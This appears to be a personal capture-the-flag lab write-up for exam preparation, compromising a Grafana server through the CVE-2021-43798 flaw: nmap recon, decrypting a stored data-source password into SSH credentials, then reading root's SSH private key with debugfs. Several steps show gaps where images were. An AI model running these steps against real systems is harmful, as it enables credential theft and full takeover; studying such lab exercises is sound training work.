

**Start 11:00 01-02-2025**

---
```
Scope:
192.168.140.181
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- 192.168.140.181 -sT --min-rate=5000 -T5

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    syn-ack Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: F69DADBD5936359AF76AAB84559E849F
| http-title: Grafana
|_Requested resource was /login
|_http-trane-info: Problem with XML parsing of /evox/about
9090/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-title: Prometheus Time Series Collection and Processing Server
|_Requested resource was /graph
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-favicon: Unknown favicon MD5: 5EE43B38986A144D6B5022EA8C8F748F
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Let's see if it works:



It does!!


### SQLite3


From these tables this one seemed most interesting:

```SQL
SELECT * FROM data_source;
[{"id":1,"org_id":1,"version":1,"type":"prometheus","name":"Prometheus","access":"server","url":"http://localhost:9090","password":"","user":"","database":"","basic_auth":0,"basic_auth_user":"sysadmin","basic_auth_password":"","is_default":0,"json_data":"{}","created":"2022-02-04 09:19:59","updated":"2022-02-04 09:19:59","with_credentials":0,"secure_json_data":"{\"basicAuthPassword\":\"anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==\"}","read_only":0,"uid":"HkdQ8Ganz"}]
```

Note the `basicAuthPassword` here, let's write it down.

```
anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
```


### Proof of Concept

We can now utilize the [following PoC](https://github.com/jas502n/Grafana-CVE-2021-43798/blob/main/AESDecrypt.go):


We just need to change this part with our own password.


### Troubleshooting

Once we try to run it we get this error that we need to solve:


To get this properly working we need to use the following commands:

```bash
# Enable Go modules
export GO111MODULE=on

# Initiliaze Go module in project directory
go mod init Fanatastic

# Verify dependencies
go mod tidy

# Get required package
go get golang.org/x/crypto/pbkdf2
```

And afterwards we can run our PoC:


```bash
sysadmin
SuperSecureP@ssw0rd
```

We can now log into SSH.


## Foothold


I then upgrade the shell using `script -c bash /dev/null`. 


### local.txt


## Privilege Escalation


We can't run `sudo -l`, let's check binaries.


Upon downloading over and running linpeas I found this:


I looked it up on Google:


Following the article we check what partition the `/` directory is mounted on.


Then using `debugfs /dev/sda2` we go ahead and read the contents of `root`'s `/.ssh/id_rsa` file.

```bash
debugfs /dev/sda2
mkdir test
cat /root/.ssh/id_rsa
```


Now we copy the contents on our Kali, use `chmod 600` and log into `ssh` as *root*.


Awesome, let's get the flag.


### proof.txt


---

**Finished 11:25 01-02-2025**

[^Links]:  [[OSCP Prep]]

